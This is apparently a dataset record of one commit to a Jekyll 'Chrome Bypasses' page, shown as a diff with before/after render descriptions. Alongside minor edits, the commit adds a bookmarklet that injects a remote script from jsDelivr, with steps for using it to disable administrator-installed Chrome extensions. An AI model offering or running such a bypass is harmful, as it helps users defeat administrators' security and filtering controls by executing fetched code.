

Before and after one commit to fruvs/fruvz, a Jekyll site: the page built from index.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 96% size, without its empty margins (190-1087 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Update index.md

````diff
--- a/index.md
+++ b/index.md
@@ -1,7 +1,7 @@
 # Chrome Bypasses
 Avoid Internet Censorship
 
-<a href="https://www.discord.gg/nullscafe"> **Join the discord** </a>
+<a href="https://www.discord.gg/nullscafe"> **Join the Discord** </a>
     All kinds of bypasses
 
 
@@ -12,6 +12,12 @@
 
 LTBEEF is a bookmarklet bypass that when used will turn
 off any admin install extension
+```
+javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot@latest/ingot.min.js';document.body.appendChild(a);}())
+```
+To use this bookmarklet copy the code above and past it into your bookmark bar then you'll  need to go to <a href="https://www.chrome.google.com/webstorex"> **This Site** </a>. Whn you get to that site click the bookmarklet you just made and turn off all of the extensions you want
+
+
 [LTBEEF](./another-page.html).
 ## Header 2
 
@@ -48,20 +54,6 @@
 2.  This is an ordered list following a header.
 3.  This is an ordered list following a header.
 
-###### Header 6
-
-| head1        | head two          | three |
-|:-------------|:------------------|:------|
-| ok           | good swedish fish | nice  |
-| out of stock | good and plenty   | nice  |
-| ok           | good `oreos`      | hmm   |
-| ok           | good `zoute` drop | yumm  |
-
-### There's a horizontal rule below this.
-
-* * *
-
-### Here is an unordered list:
 
 *   Item foo
 *   Item bar
````
